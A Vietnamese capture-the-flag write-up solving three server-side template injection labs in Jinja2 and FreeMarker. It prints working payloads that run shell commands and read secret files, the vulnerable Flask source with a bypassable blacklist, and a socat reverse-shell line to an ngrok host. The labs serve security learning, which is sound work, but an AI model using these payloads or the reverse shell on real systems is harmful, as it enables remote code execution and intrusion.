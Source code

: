 # Trần Mạnh Huy

* [Python - Server-side Template Injection Introduction](#python---server-side-template-injection-introduction)
* [Java - Server-side Template Injection](#java---server-side-template-injection)
* [Python - Blind SSTI Filters Bypass](#python---blind-ssti-filters-bypass)


## Python - Server-side Template Injection Introduction

```
Statement

This service allows you to generate a web page. Use it to read the flag!

```

#### Đễ thấy ứng dụng nhận vào hai tham số trong đó giá trị content gặp phải lỗ hổng SSTI, thử với payload **{{10*10}}** trong phần content được server trả về kết quả: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_01.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_02.jpg)

Do kết quả trả về là "10101010101010101010" nên có thể xác nhận template được dùng ở đây là jinja2, còn nếu trả về 100 thì sẽ là template twig.

#### Đã xác định được template là jinja2, ta có thể build được payload khai thác từ nó
Dùng TemplateReference object để import các module bằng payload:

```
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('ls').read() }}

```
Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_03.jpg)

#### Thay payload trên bằng {{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('ls -lsa').read() }}

Thấy được file .passwd. Sửa payload thành : **{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('cat .passwd').read() }}** ta được pass để giải chall này

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_04.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_06.jpg)


## Java - Server-side Template Injection

```
Statement

Exploit the vulnerability in order to retrieve the validation password in the file SECRET_FLAG.txt.

```

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root02_01.jpg)

Sau khi thử test 1 hồi thì thấy nó bị dính SSTI thông qua payloads:${7*7} 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root02_02.jpg)

Để ý kĩ gì khi thực hiện request GET lên server, phần HEADER của template đang kh chuẩn khi X-Powered-By cho ta biết được website đang dùng tempalte Freemaker hoặc ta có thể thử tiếp khi biết nó bị dính payloads: ${7*7} 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root_02_05.jpg)

Biết được dùng template engine Freemaker rồi thì ta có thể built payload khác thác từ nó như sau:

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

```
Dùng payload tìm flag: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root02_03.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root02_04.jpg)



## Python - Blind SSTI Filters Bypass

```
Statement

This company’s site offers to apply for their private bug bounty program. To show them that you are the right candidate for them, exploit this app and find a way to get the flag!

```

Chall này ta có source code: 

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# Author             : Podalirius

import jinja2
from flask import Flask, flash, redirect, render_template, request, session, abort

mail = """
Hello team,

A new hacker wants to join our private Bug bounty program! Mary, can you schedule an interview?

 - Name: {{ hacker_name }}
 - Surname: {{ hacker_surname }}
 - Email: {{ hacker_email }}
 - Birth date: {{ hacker_bday }}

I'm sending you the details of the application in the attached CSV file:

 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'

Best regards,
"""

def sendmail(address, content):
    try:
        content += "\n\n{{ signature }}"
        _signature = """---\n<b>Offsec Team</b>\noffsecteam@hackorp.com"""
        content = jinja2.Template(content).render(signature=_signature)
    except Exception as e:
        pass
    return None

def sanitize(value):
    blacklist = ['{{','}}','{%','%}','import','eval','builtins','class','[',']']
    for word in blacklist:
        if word in value:
            value = value.replace(word,'')
    if any([bool(w in value) for w in blacklist]):
        value = sanitize(value)
    return value

app = Flask(__name__, template_folder="./templates/", static_folder="./static/")
app.config['DEBUG'] = False

@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html")

@app.route("/", methods=['GET','POST'])
def register():
    global mail
    if request.method == "POST":
        if "name" in request.form.keys() and len(request.form["name"]) != 0 and "surname" in request.form.keys() and len(request.form["surname"]) != 0 and "email" in request.form.keys() and len(request.form["email"]) != 0 and "bday" in request.form.keys() and len(request.form["bday"]) != 0 :
            if len(request.form["name"]) > 20:
                return render_template("index.html", error="Field 'name' is too long.")
            if len(request.form["surname"]) >= 50:
                return render_template("index.html", error="Field 'surname' is too long.")
            if len(request.form["email"]) >= 50:
                return render_template("index.html", error="Field 'email' is too long.")
            if len(request.form["bday"]) > 10:
                return render_template("index.html", error="Field 'bday' is too long.")
            try:
                register_mail = jinja2.Template(mail).render(
                    hacker_name=sanitize(request.form["name"]),
                    hacker_surname=sanitize(request.form["surname"]),
                    hacker_email=sanitize(request.form["email"]),
                    hacker_bday=sanitize(request.form["bday"])
                )
            except Exception as e:
                pass
            sendmail("offsecteam@hackorp.com", register_mail)
            return render_template("index.html", success="Thank you! Your application will be reviewed within a week.")
        else:
            return render_template("index.html", error="Missing fields in the application form!")
    elif request.method == 'GET':
        return render_template("index.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=59073)

```

#### Đầu tiên là template engine được sử dụng là jinja2. Có thể thấy form cho ta 4 tham số nhập: Name, Surface, Email address, Birth day. Và được pass qua santized() và có giới hạn độ dài:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab3_01.jpg)

Ngoài ra còn có blacklist:

```
blacklist = ['{{','}}','{%','%}','import','eval','builtins','class','[',']']

```

Tuy vậy phân tích source code có thể nhận thấy rằng có 1 lỗ hổng có thể bypass qua hàm santized():

```
I'm sending you the details of the application in the attached CSV file:

 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'
 
 ```
 
Bằng việc tách payload SSTI để bypass của hàm santized sau đó khi qua thì chúng sẽ được nối lại với nhau và thực hiện được trong template engine.
Ta thực hiệ tách như sau:  

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab03_02.jpg)
 
Nhưng vì đây là blind SSTI, ta có thể thực hiện revershell đến ngrok của mình host.

> https://www.revshells.com/ : socat TCP:0.tcp.ap.ngrok.io:11193 EXEC:sh

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab03_03.jpg)

Lấy flag: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab03_04.jpg)

